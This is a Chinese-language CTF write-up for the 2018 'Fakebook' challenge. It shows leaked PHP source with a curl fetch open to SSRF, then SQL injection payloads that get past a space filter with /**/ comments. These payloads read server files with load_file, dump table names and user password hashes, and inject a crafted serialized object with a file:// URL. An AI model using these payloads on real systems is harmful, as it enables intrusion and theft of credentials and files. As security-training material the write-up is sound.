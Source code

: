 # [网鼎杯 2018]Fakebook

## 知识点

`sql注入`

`php代码审计`

`robots.txt`

## 解题

`robots.txt`里有`/user.php.bak`

下载后内容为

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

```
?no=1%20order%20by%205 // 回显错误
?no=1%20order%20by%204 // 正常回显
```

因为过滤了空格，使用`/**/`绕过

`/view.php?no=-1%20union/**/select%201,2,3,4`

发现`2`回显，使用`load_file`读取文件

`/view.php?no=-1%20union/**/select%201,load_file('/var/www/html/flag.php'),3,4`

可以直接读取到`flag`，然后查看源码即可读取到`flag`

也可以继续注入

```
/view.php?no=-1%20union/**/select%201,database(),3,4
return: fakeroot

/view.php?no=-1%20union/**/select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
return: users

/view.php?no=-1%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_name="users"
return: no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS 

/view.php?no=-1%20union/**/select%201,group_concat(username,passwd),3,4 from users
return: adminc7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ecO:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:7:"123.php";} 
```

发现`data`字段为`UserInfo`序列化后的数据

在这里我们是不是可以利用一下呢？于是我们对这个序列化后的内容稍作改动

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

然后构造payload:

```
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

然后我们查看源码，发现读出来的数据，`base64`解密获得`flag`

[参考](https://www.cnblogs.com/junlebao/p/14104036.html)